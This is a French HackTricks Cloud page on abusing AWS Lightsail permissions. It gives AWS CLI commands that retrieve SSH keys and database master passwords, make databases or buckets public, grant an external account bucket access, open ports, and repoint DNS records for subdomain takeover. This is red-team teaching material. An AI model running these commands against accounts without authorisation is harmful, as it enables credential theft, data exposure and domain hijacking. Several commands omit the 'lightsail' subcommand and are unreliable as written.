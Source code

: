 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Pour plus d'informations sur Lightsail, consultez :

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Il est important de noter que Lightsail **n'utilise pas les rôles IAM appartenant à l'utilisateur** mais à un compte géré par AWS, donc vous ne pouvez pas abuser de ce service pour privesc. Cependant, des **données sensibles** telles que du code, des clés API et des informations sur les bases de données pourraient être trouvées dans ce service.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Cette permission vous permettra d'obtenir les clés SSH pour accéder aux instances :
```
aws lightsail download-default-key-pair
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:GetInstanceAccessDetails`

Cette autorisation vous permettra de générer des clés SSH pour accéder aux instances :
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:CreateBucketAccessKey`

Cette autorisation vous permettra d'obtenir une clé pour accéder au bucket :
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur du bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Cette autorisation vous permettra d'obtenir les identifiants pour accéder à la base de données :
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impact potentiel :** Trouver des informations sensibles dans la base de données.

### `lightsail:UpdateRelationalDatabase`

Cette autorisation vous permettra de changer le mot de passe pour accéder à la base de données :

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Si la base de données n'est pas publique, vous pouvez également la rendre publique avec ces autorisations avec

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impact potentiel :** Trouver des informations sensibles dans la base de données.

### `lightsail:OpenInstancePublicPorts`

Cette permission permet d'ouvrir des ports vers Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impact potentiel :** Accéder à des ports sensibles.

### `lightsail:PutInstancePublicPorts`

Cette autorisation permet d'ouvrir des ports vers Internet. Notez que l'appel fermera tout port ouvert qui n'est pas spécifié.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impact potentiel :** Accéder à des ports sensibles.

### `lightsail:SetResourceAccessForBucket`

Cette permission permet de donner à une instance l'accès à un bucket sans aucune autre information d'identification.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impact potentiel :** Accès potentiel à de nouveaux buckets contenant des informations sensibles.

### `lightsail:UpdateBucket`

Avec cette autorisation, un attaquant pourrait accorder à son propre compte AWS un accès en lecture sur des buckets ou même rendre les buckets publics pour tout le monde :
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impact potentiel :** Accès potentiel à de nouveaux buckets contenant des informations sensibles.

### `lightsail:UpdateContainerService`

Avec ces autorisations, un attaquant pourrait accorder l'accès aux ECR privés depuis le service de conteneurs.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impact potentiel :** Obtenir des informations sensibles à partir d'ECR privé

### `lightsail:CreateDomainEntry`

Un attaquant disposant de cette autorisation pourrait créer un sous-domaine et le pointer vers sa propre adresse IP (prise de contrôle de sous-domaine), ou créer un enregistrement SPF qui lui permet de falsifier des e-mails depuis le domaine, ou même définir le domaine principal sur sa propre adresse IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impact potentiel :** Prise de contrôle d'un domaine

### `lightsail:UpdateDomainEntry`

Un attaquant disposant de cette autorisation pourrait créer un sous-domaine et le pointer vers sa propre adresse IP (prise de contrôle de sous-domaine), ou créer un enregistrement SPF qui lui permet de falsifier des e-mails depuis le domaine, ou même définir le domaine principal sur sa propre adresse IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impact potentiel :** Prise de contrôle d'un domaine

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
